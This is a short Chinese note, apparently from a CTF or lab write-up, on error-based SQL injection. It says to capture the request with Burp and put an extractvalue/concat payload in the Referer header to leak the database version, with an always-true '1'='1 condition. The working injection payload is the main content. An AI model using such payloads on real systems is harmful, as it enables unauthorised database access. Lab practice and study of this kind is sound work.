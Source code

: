 和上一题类似 用报错注入



burp抓包



Refer: ' and extractvalue(1,concat(0x7e,(select version()),0x7e)) and '1' ='1



'1' ='1 为永真条件
